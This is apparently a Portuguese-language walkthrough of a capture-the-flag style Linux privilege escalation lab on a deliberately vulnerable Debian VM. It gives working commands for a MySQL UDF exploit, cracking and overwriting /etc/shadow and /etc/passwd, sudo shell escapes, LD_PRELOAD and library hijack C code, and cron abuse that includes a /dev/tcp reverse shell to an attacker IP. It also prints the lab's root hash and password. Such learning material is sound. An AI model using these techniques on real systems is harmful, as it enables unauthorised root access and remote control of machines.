


# Introdução

A room aborta algumas técnicas sobre elevação de privilégios em ambientes Linux. A partir de um VM Debian propositalmente vulnerável, é possível praticar tais técnicas.

# Execução

## 1 - Deploy the Vulnerable Debian VM

Primeira task consiste basicamente em realizar o deploy (iniciar) a VM. São repassadas informações de acesso SSH: usuário -> **user**; senha -> **password321**

### Questões:

- a. ***Deploy the machine and login to the "user" account using SSH***: *Não há necessidade de resposta*

- b. ***Run the "id" command. What is the result?*** *uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)*

## 2 - Service Exploits

Existe na VM uma instância do SGDB Mysql sendo executado com usuário root e o usuário root do Mysql está sem senha. É possível utilizar um exploit bem popular disponível no [link](https://www.exploit-db.com/exploits/1518), a fim de obter vantagem de UDFs (User Defined Functions) e executar comandos como superusuário via serviço do Mysql.

Após acessar a VM, acesse o diretório abaixo:
```shell
cd /home/user/tools/mysql-udf
```

A Vm já possui o exploit no diretório acima para facilitar. Se fosse em um pentest real, com esse mesmo, cenário, seria necessário baixar o exploit e enviar para o alvo.

```shell
user@debian:~$ cd /home/user/tools/mysql-udf
user@debian:~/tools/mysql-udf$ ll
total 4
-rw-r--r-- 1 user user 3378 May 15  2020 raptor_udf2.c
user@debian:~/tools/mysql-udf$ 
```
Agora, é necessário compilar o arquivo raptor_udf2.c com os comandos, conforme imagem abaixo:



Conexão com o mysql:

```shell
mysql -u root
```

Após isso, executa-se a sequência de comandos abaixo:

```shell
use mysql;

create table foo(line blob);

insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));

select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

create function do_system returns integer soname 'raptor_udf2.so';
```
Agora, usa-se a função para copiar ***/bin/bash*** para ***/tmp/rootbash*** e "setar" a permissão **SUID**.

```shell
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```
Os comandos executados na imagem abaixo:


Para sair da console do mysql, digite ***quit***.

Agora, para obter um shell com elevação de privilégios, basta digitar:

```shell
user@debian:~/tools/mysql-udf$ /tmp/rootbash -p
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
rootbash-4.1# whoami
root
rootbash-4.1# 
```

Por fim, é solicitado que seja removido o arquivo /tmp/rootbash e saia do shell root, antes de prosseguir para as próximas tasks da room.

### Questões:

- a. ***Read and follow along with the above***: *Não há necessidade de resposta*

## 3 - Weak File Permissions - Readable /etc/shadow

O arquivo /etc/shadow contém as hashs de senhas dos usuários do sistema. Em uma configuração correta, esse arquivo só deve ter permissão de leitura para o usuário root.

Verificando as permissões do arquivo na VM alvo:

```shell
user@debian:~$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
user@debian:~$ 
```
Percebe-se que outros usuário possuem permissão de leitura. Também permissão de gravação, mas isso será explorado na próxima task da room.

Como o usuário ***user*** pode ler o arquivo, basta executar um ***cat /etc/shadow***.

O que se pode fazer agora, é coletar a linha do usuário root, adicionar em um arquivo e usar uma ferramenta, como por exemplo, o John the ripper para descobrir a senha do usuário root.

```shell
┌──(root㉿kali)-[/tryhackme/rooms/linuxprivesc]
└─# john --wordlist=rockyou.txt hash.txt                                       
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (root)     
1g 0:00:00:00 DONE (2022-07-13 20:09) 1.666g/s 2560p/s 2560c/s 2560C/s cuties..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Para a execução do comando acima, foi utilizada a wordlist rockyou.txt. Esta wordlist esstá disponível no próprio Kali Linux.

Agora que desobriu-se a senha do usuário root, basta executar ***su root*** e informar a senha quando solicitado. Obtém-se um shell com elevação de privilégios.

### Questões:

- a. ***What is the root user's password hash?*** *$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0*

- b. ***What hashing algorithm was used to produce the root user's password hash?*** *sha512crypt*

Para responder a questão ***b***, basta uma pesuisa rápida na internet. Entretanto, a própria saída do comando john, exibe essa informação.

- c. ***What is the root user's password?*** *password123*

## 4 - Weak File Permissions - Writable /etc/shadow

Se o arquivo /etc/shadow por alguma razão tiver permissão de gravação, basta gerar uma hash e substituir a hash atual do usuário root pela nova.

Para gerar uma hash no padrão do arquivo shadow:

```shell
mkpasswd -m sha-512 novasenha
```
Depois de editar o arquivo /etc/shadow mudando a hash do usuário root pela nova gerada com o comando acima e salvar, basta elevar para o usuário root com ***su root***.

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 5 - Weak File Permissions - Writable /etc/passwd 

O arquivo ***/etc/passwd*** contém informações sobre contas de usuários do sistema. Ele tem permissão de leitura para todos os usuário, porém a permissão de escrita é somente para o usuário root.

Historicamente, o arquivo ***/etc/passwd*** continha hashes de senha do usuário, e algumas versões do Linux ainda permitem que hashes de senha sejam armazenados lá.

Se esse arquivo tiver permissão de escrita para outros usuários, é possível explorar essa fraqueza para elevar privilégios.

Primeiro, gera-se uma hash de senha com o comando abaixo:

```shell
openssl passwd senhaaterhashgerada
```

Agora, basta editar o arquivo ***/etc/passwd*** e na linha que contém o usuário root, substituir o "x" pela hash gerada com o comando anterior.

Para elevar para root:

```shell
su root
```
Abaixo a demonstração:

```shell
user@debian:~$ ls -l /etc/passwd
-rw-r--rw- 1 root root 1009 Aug 25  2019 /etc/passwd
user@debian:~$ openssl passwd Senha123
lIkG5D1fwKsp6
user@debian:~$ vi /etc/passwd
user@debian:~$ su root
root@debian:/home/user# 
```

Outra forma, é adicionar um novo usuário com permissão de root, colocando a hash gerada no lugar do "x". Assim, não se altera o usuário root original.

### Questões:

- a. ***Run the "id" command as the newroot user. What is the result?*** *uid=0(root) gid=0(root) groups=0(root)*

## 6 - Sudo - Shell Escape Sequences 

Uma ação recomendada, após ganhar acesso a um host alvo, é verificar se o usuário que está logado possui alguma permissão sudo. Para isso:

```shell
sudo -l
```

Uma excelente fonte de consulta para aprender como explorar binários que estão autorizados no sudo é o [GTFOBins](https://gtfobins.github.io), a fim de se obter elevação de privilégios.

```shell
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```
Apenas para ilustar, [link](https://gtfobins.github.io/gtfobins/vim/) do GTFOBins com informações de elevação usando o comando vim.

Como os comandos estão configurados no sudo, eles são executados com permissão de superusuário. Portanto, é possível elevar privilégios usando alguns desses comandos.

Exemplo como vim:

```shell
user@debian:~$ sudo vim -c ':!/bin/sh'

sh-4.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.1# 
```
### Questões:

- a. ***How many programs is "user" allowed to run via sudo?*** *11* 

- b. ***One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?*** *apache2*

Para responder a questão b, basta realizar pesquisa no site GTFOBins.

## 7 - Sudo - Environment Variables 

O sudo pode ser configurado para herdar certas variáveis de ambiente do usuário.

Para checar tais informações, além das permissões, executa-se:

```shell
sudo -l
```
Saída com a parte de interesse:

```shell
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
```
**LD_PRELOAD** e **LD_LIBRARY_PATH** são herdados do ambiente do usuário. **LD_PRELOAD** carrega um objeto compartilhado antes de qualquer outro quando um programa é executado. **LD_LIBRARY_PATH** fornece uma lista de diretórios onde as bibliotecas compartilhadas são pesquisadas primeiro.

Na VM usada na room, já existe um código para geração de um objeto compartilhado, a fim de demonstrar a exploração.

Para criar o objeto, execute:

```shell
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

A biblioteca (arquivo .so) foi criada e está no diretório ***/tmp***.

Agora, é possível executar um dos programas que se tenha permissão para executar via sudo (listado ao executar sudo -l), mas pode-se configurar a variável de ambiente LD_PRELOAD para o caminho completo do novo objeto compartilhado:

```shell
sudo LD_PRELOAD=/tmp/preload.so program-name-here
```
Por exemplo:

```shell
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so vim
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user# 
```

No exemplo acima, foi utilizado o vim, que está na lista de binários que o usuário pode executar com sudo. Obteve-se um shell como usuário root.

Para listar quais bibliotecas determinado programa utiliza, basta usar o comando ldd. Por exemplo:

```shell
root@debian:/home/user# ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fff4e3b4000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f0b9dae5000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f0b9d8c1000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f0b9d687000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f0b9d46b000)
        libc.so.6 => /lib/libc.so.6 (0x00007f0b9d0ff000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f0b9cefa000)
        librt.so.1 => /lib/librt.so.1 (0x00007f0b9ccf2000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f0b9cabb000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f0b9c8b6000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f0b9c68e000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f0b9dfa2000)
```

Um outra técnica de exploração para elevar privilégios é gerar uma biblioteca com o mesmo nome que um binário usa de forma compartilhada. Para ilustrar, observe a geração de uma lib com o mesmo nome de uma utilizada pelo apache2:

```shell
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```
Novamente, a lib "disfarçada" foi gerada no diretório ***/tmp***.

Para efetivar, ao executar o apache2 com o sudo, informa-se a variável de ambiente LD_LIBRARY_PATH:

```shell
user@debian:~$ sudo LD_LIBRARY_PATH=/tmp apache2

apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)

root@debian:/home/user# 
```
Percebe-se que foi gerado um shell de root.

Na task é proposto o seguinte desafio:

Saia da shell de root. Tente renomear /tmp/libcrypt.so.1 para o nome de outra biblioteca usada pelo apache2  (listadas com o comando ldd mais acima) e execute novamente o apache2 usando sudo novamente. Funcionou? Se não, tente descobrir por que não, e como o código library_path.c pode ser alterado para fazê-lo funcionar.

Avaliando o código fonte do arquivo library_path.c:

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
Para que seja possível chamar qualquer lib, basta alterar o código para:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 8 - Cron Jobs - File Permissions

Cron jobs são programas ou scripts que os usuários podem agendar para serem executados em horários ou intervalos específicos. Os arquivos de tabela cron (crontabs) armazenam a configuração para tarefas cron. O crontab de todo o sistema está localizado em /etc/crontab.

Veja o conteúdo do crontab de todo o sistema:

```shell
cat /etc/crontab
```


Percebe-se que existem dois cron jobs programados para serem executados a cada minuto. Um executa overwrite.sh, o outro executa /usr/local/bin/compress.sh.

Localize o caminho completo do arquivo overwrite.sh:

```shell
user@debian:~$ find / -name overwrite.sh -type f 2>/dev/null
/usr/local/bin/overwrite.sh
```
É interessante checar as permissões desse arquivo. Agora que se sabe o caminho, poderia ser executado um ***ls -l /usr/local/bin/overwrite.sh***. Entretanto, o comando find usado anterior pode ser modificado para fazer as duas coisas, ou seja, localiza e já lista mostrando as permissões:

```shell
user@debian:~$ find / -name overwrite.sh -type f -exec ls -l {} \; 2> /dev/null
-rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh
```

Como o arquivo possui permissão de gravação para outros usuários, ficou fácil. Basta modificar o arquivo overwrite.sh para um conteúdo malicioso, por exemplo, abrir um shell reverso, como abaixo:

```shell
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

**Obs.**: o ip 10.10.10.10 deve ser modificado para o IP da máquina atacante.

Na máquina atacante, basta iniciar um netcat para escutar na porta 4444 com:

```shell
nc -nvlp 4444
```

Agora, basta aguardar a execução do cron job para ter uma sessão de shell reversa aberta no host atacante, a partir do host alvo.

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 9 - Cron Jobs - PATH Environment Variable 

Ao visualizar o conteúdo do arquivo ***/etc/crontab***, pode-se perceber que existem variáveis de ambientes configuradas. Algumas vezes, pode ter uma variável de ambiente para um caminho que tenha permissão mais flexível, permitindo exploração.

```shell
user@debian:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

Observa-se que a variável PATH começa com ***/home/user*** que é o diretório inicial do nosso usuário.

Crie um arquivo chamado overwrite.sh no diretório do usuário com o seguinte conteúdo:

```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
Basicamente, o script acima vai copir o binário do ***bash*** para ***/tmp*** com o nome ***rootbash***. Em seguida, adiciona-se permissão SUID, com o objetivo de executar com elevação de privilégios.

Para o arquivo overwrite.sh seja executado pelo crontab, é preciso adicionar permissão de execução a ele:

```shell
chmod +x overwrite.sh
```

Agora, basta aguardar a execução do cron job (não deve demorar mais de um minuto). Execute o comando /tmp/rootbash com -p para obter um shell rodando com privilégios de root:

```shell
/tmp/rootbash -p
```
Um shell de superusuário será aberto. Por que isso ocorreu? Pelo fato da variável de ambiente que estava setada para procurar executáveis no diretório home do usuário, ou seja, um diretório que um usuário limitado tem permissão. 

### Questões:

- a. ***What is the value of the PATH variable in /etc/crontab?*** */home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin*
